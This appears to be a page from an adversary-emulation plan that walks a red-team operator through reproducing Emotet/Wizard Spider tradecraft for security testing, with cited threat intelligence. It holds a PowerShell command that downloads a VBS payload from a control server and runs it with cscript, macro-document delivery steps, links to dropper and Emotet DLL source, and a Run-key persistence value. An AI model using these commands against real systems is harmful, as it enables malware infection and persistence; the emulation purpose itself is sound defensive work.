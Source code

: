 1. Open outlook if its not already open, log in to Office account if not already logged in

2. Open the ChristmasCard.docm document on the desktop; enable macros when prompted.

3. You should see a terminal flash; wait for it to execute the Emotet DLL.

4. Go back to your control server tab; you should have a new callback.

5. Take a screenshot of your new session, and paste in the vendor slack channel.

```bash
# Emotet has sent Microsoft Word documents with embedded macros that will invoke scripts to download additional payloads. [6][13][2][8][12]
```

[Source Code - Dropper Word Document](../../Resources/Emotet_Dropper)

[Source Code - Emotet DLL](../../Resources/Emotet)

<br>

`For testing without MS Office; be aware that this is not identical to the Word document implementation - the process lineage and file paths change significantly with this method.`

Open PowerShell and run:

```powershell
Invoke-WebRequest -Uri http://192.168.0.4:8080/getFile/adb.txt -OutFile $env:AppData\adb.vbs
```

```bash
# Wizard Spider has used HTTP for network communications.[5]

cscript.exe $env:AppData\adb.vbs
```

#### :microscope: Cited Intelligence

* <https://documents.trendmicro.com/assets/white_papers/ExploringEmotetsActivities_Final.pdf>

* <https://www.symantec.com/blogs/threat-intelligence/evolution-emotet-trojan-distributor>

* <https://www.picussecurity.com/blog/the-christmas-card-you-never-wanted-a-new-wave-of-emotet-is-back-to-wreak-havoc.html>

* <https://www.carbonblack.com/2019/04/24/cb-tau-threat-intelligence-notification-emotet-utilizing-wmi-to-launch-powershell-encoded-code/>

* <https://blog.talosintelligence.com/2019/01/return-of-emotet.html>

### Step 2 - Emotet Persistence

:microphone: `Voice Track:`

Wizard Spider establishes registry persistence by adding the registry key:

```
Path: HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run

Key: blbdigital

Value: rundll32.exe %userprofile%\Ygyhlqt\Bx5jfmo\R43H.dll,Control_RunDLL
```
